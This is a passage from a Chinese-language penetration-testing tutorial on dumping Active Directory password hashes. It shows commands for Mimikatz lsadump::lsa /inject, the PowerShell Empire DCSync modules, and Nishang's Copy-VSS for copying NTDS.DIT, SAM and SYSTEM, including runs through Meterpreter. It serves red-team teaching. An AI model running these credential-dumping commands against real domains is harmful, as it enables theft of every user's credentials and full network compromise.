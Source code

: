 ```
privilege::debug
lsadump::lsa /inject
```

将检索域内用户的密码哈希值。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171012-5bb7b16a-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171012-5bb7b16a-988f-1.png)

Empire
------

`PowerShell Empire`有两个模块，可以通过`DCSync`攻击 dump 域内哈希值。这两个模块都需要以域管理员权限执行，并且目标机器正在使用 Microsoft 复制服务。这些模块依赖于`Invoke-Mimikatz PowerShell`脚本来执行与`DCSync`相关的`Mimikatz`命令。以下模块将域内哈希值提取为类似于`Metasploit hashdump`命令输出的格式。

```
usemodule credentials/mimikatz/dcsync_hashdump
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171012-5becc0c6-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171012-5becc0c6-988f-1.png)  
用`DCSync`模块 dump 所有的帐户中指定的用户信息。  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171012-5c0f6fa4-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171012-5c0f6fa4-988f-1.png)  
将获得以下信息：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171012-5c350214-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171012-5c350214-988f-1.png)

Nishang
-------

[Nishang](https://github.com/samratashok/nishang) 是一个`PowerShell`框架，它让`redteam`和渗透测试人员能够对系统进行攻击性操作。Nishang 中的 [VSS 脚本](https://github.com/samratashok/nishang/blob/master/Gather/Copy-VSS.ps1)可以用于自动提取所需的文件：`NTDS.DIT​​，SAM和SYSTEM`。这些文件将被解压缩到当前工作目录或指定的任何其他文件夹中。

```
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171013-5c7b79a6-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171013-5c7b79a6-988f-1.png)  
我操作完之后当前文件夹已经 dump 了。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171013-5cc1f034-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171013-5cc1f034-988f-1.png)

或者，可以通过现有的 Meterpreter 会话加载 PowerShell 扩展来执行脚本。

```
load powershell
powershell_import /root/Copy-VSS.ps1
powershell_execute Copy-VSS
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171014-5cdb23ba-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171014-5cdb23ba-988f-1.png)
